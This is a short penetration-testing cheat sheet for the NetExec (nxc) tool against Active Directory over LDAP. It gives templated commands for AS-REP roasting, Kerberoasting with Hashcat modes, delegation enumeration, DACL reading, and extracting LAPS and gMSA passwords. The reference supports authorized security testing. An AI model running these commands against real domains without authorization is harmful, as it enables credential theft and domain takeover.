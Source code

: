 # nxc

% nxc-ldap, netexec, windows, Active directory
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/AD/RECON 

## ldap - LDAP connection
edit /etc/hosts
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain> --no-smb
```

## ldap - LDAP Machine Account Quota
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain> --no-smb -M MAQ
```

## ldap - ASREPRoast enum without authentication
User can be a wordlist too (user.txt)
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - ASREPRoast enum with authentication
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - Kerberoasting
Hashcat format  -m 13100
```bash
nxc ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_name>
```

## ldap - Unconstrained delegation
List of all computers et users with the flag TRUSTED_FOR_DELEGATION
```bash
nxc ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```


## ldap - read DACLs of an account
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<user> ACTION=read
```


## ldap - read DACLs of an principal has over a target
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<target_user> -o PRINCIPAL=<user> ACTION=read
```

## ldap - read LAPS
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --module laps
```


## ldap - read gmsa
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --gmsa
```